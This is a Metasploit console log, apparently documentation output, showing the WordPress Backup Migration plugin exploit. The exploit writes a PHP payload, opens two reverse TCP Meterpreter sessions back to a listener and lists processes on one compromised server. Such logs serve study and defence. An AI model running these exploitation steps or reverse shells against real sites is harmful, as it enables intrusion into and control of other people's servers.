 ```console
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set lport 443
lport => 443
msf6 exploit(multi/http/wp_backup_migration_php_filter) > run
[*] Exploiting target 3.73.29.183

[-] Handler failed to bind to 52.57.50.4:443:-  -
[*] Started reverse TCP handler on 0.0.0.0:443
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Writing the payload to disk, character by character, please wait...
[*] Sending stage (39927 bytes) to 3.74.38.166
[+] Deleted j
[+] Deleted erpY.php
[*] Meterpreter session 1 opened (10.192.10.73:443 -> 3.74.38.166:38454) at 2024-04-30 07:08:44 +0000
[*] Session 1 created in the background.
[*] Exploiting target 3.120.25.116
[-] Handler failed to bind to 52.57.50.4:443:-  -
[*] Started reverse TCP handler on 0.0.0.0:443
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Writing the payload to disk, character by character, please wait...
[*] Sending stage (39927 bytes) to 3.74.38.166
[+] Deleted t
[+] Deleted erpY.php
[*] Meterpreter session 2 opened (10.192.10.73:443 -> 3.74.38.166:43951) at 2024-04-30 07:09:43 +0000
[*] Session 2 created in the background.
msf6 exploit(multi/http/wp_backup_migration_php_filter) >
msf6 exploit(multi/http/wp_backup_migration_php_filter) > sessions --interact 1
[*] Starting interaction with 1...

meterpreter > ps

Process List
============

 PID  Name                           User  Path
 ---  ----                           ----  ----
 1    /opt/bitnami/apache/bin/httpd  1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 301  /opt/bitnami/apache/bin/httpd  1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 302  /opt/bitnami/apache/bin/httpd  1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 303  /opt/bitnami/apache/bin/httpd  1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 304  /opt/bitnami/apache/bin/httpd  1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 305  /opt/bitnami/apache/bin/httpd  1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 306  /opt/bitnami/apache/bin/httpd  1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 308  /opt/bitnami/apache/bin/httpd  1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 309  /opt/bitnami/apache/bin/httpd  1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 310  /opt/bitnami/apache/bin/httpd  1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
```
